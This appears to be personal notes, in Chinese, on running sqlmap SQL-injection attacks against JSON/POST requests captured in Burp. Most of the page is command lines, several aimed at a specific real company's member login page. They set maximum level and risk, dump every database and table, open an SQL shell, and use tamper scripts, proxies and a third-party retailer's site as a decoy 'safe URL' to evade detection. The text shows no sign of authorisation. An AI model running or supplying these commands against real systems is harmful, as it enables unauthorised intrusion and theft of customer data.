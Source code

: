 # sqlmap JSON/POST
從 burp 將整個 request 存成 txt
手動在 Host: 後綴加上 `:443` 用以指定 https
手動在要測試的參數的值，後綴加上 `*` 用以指定參數
`-r REQUESTFILE      Load HTTP request from a file`
```shell
$ sqlmap -r loginRequest2.txt -T4 --random-agent --current-db --dbs --tables --dump --level 5 --risk 3 --threads 10 --sql-shell --dbms=Mysql
```

使用帶 json 的，sqlmap 不支援 `-p` 指定參數，必須用星號

```shell
sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T5 -v3 --level 5 --risk 3  --tables --dump-all --sql-shell --force-ssl

sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T4 -v3 --level 5 --risk 3 --random-agent --force-ssl --tables --dump-all --hex

sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T4 -v3 --level 5 --risk 3 --random-agent --force-ssl --fresh-queries --tables --dump-all --no-cast

sqlmap -r try3woutstar.txt -T4 --random-agent --force-ssl --banner --current-db --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --fresh-queries --proxy="http://192.168.3.19:9527" -v 3 --randomize

sqlmap -r 1.txt -v 3 -T4 --force-ssl --banner --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --proxy="http://192.168.3.19:9527"

sqlmap -r try3.txt -T6 --random-agent --force-ssl --banner --current-db --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --dbms=Mysql --fresh-queries --no-cast --proxy="http://192.168.3.19:9527" -v 3 --safe-url="https://www.uniqlo.com" --safe-freq 10 --randomize --tamper="space2mysqlblank.py"

sqlmap -r try3.txt -T4 -v3 --level 5 --risk 3  --tables --dump-all 

```
[SQLMap - Cheetsheat - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

-   --safe-url: 隔一会就访问一下的安全URL
-   --safe-post: 访问安全URL时携带的POST数据
-   --safe-req: 从文件中载入安全HTTP请求
-   --safe-freq: 每次测试请求之后都会访问一下的安全URL


AND boolean based found reflective values
![[2022-07-07_12-28.png]]